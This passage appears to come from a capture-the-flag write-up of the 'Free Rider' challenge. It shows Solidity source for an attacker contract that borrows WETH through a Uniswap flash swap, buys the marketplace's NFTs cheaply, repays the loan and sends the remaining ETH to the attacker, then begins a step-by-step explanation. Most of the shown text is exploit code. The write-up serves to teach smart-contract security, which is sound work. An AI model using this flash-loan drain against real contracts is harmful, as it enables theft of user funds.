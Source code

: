 ```solidity
        uint256 _repayAmount = _fee + _amount0;

        // 5. Get WETH to pay back the flash swap
        WETH.deposit{value: _repayAmount}();

        // 6. Pay back the flash swap with fee included
        WETH.transfer(address(UNISWAP_PAIR), _repayAmount);

        // 7. Send NFT's to buyer
        for (uint256 i = 0; i < 6; i++) {
            NFT.safeTransferFrom(address(this), buyer, tokenIds[i]);
        }

        // 8. Transfer ETH to attacker
        (bool ethSent, ) = attacker.call{value: address(this).balance}("");
        require(nftsBought && ethSent);
    }

    // Function to allow this contract to receive NFTs
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external view returns (bytes4) {
        require(msg.sender == address(NFT) && tx.origin == attacker);
        return 0x150b7a02; //IERC721Receiver.onERC721Received.selector;
    }
}
```

Our FreeRiderAttacker contract has a receive() function to make the contract able to receive the ETH of the payout and the ETH that we get when buying an NFT. It also has to implement the onERC721Received() function and return the corresponding selector to receive the NFTs of the marketplace.

Following the FreeRiderAttacker contract implementation, the attack goes like this:

1.We have an `attack()` function that executes a flash swap by calling UniswapV2Pair `swap()` function passing some arbitrary data (as explained in the documentation). This is done to get the 15 WETH:

```solidity
function attack(uint256 _amount0) external {
   require(msg.sender == attacker);        
   bytes memory _data = "1";         
   // 1. Do a flash swap to get WETH        
   UNISWAP_PAIR.swap(            
      _amount0, // amount0 => WETH            
      0, // amount1 => DVT            
      address(this), // recipient of flash swap            
      _data // passed to uniswapV2Call function
   );    
}
```
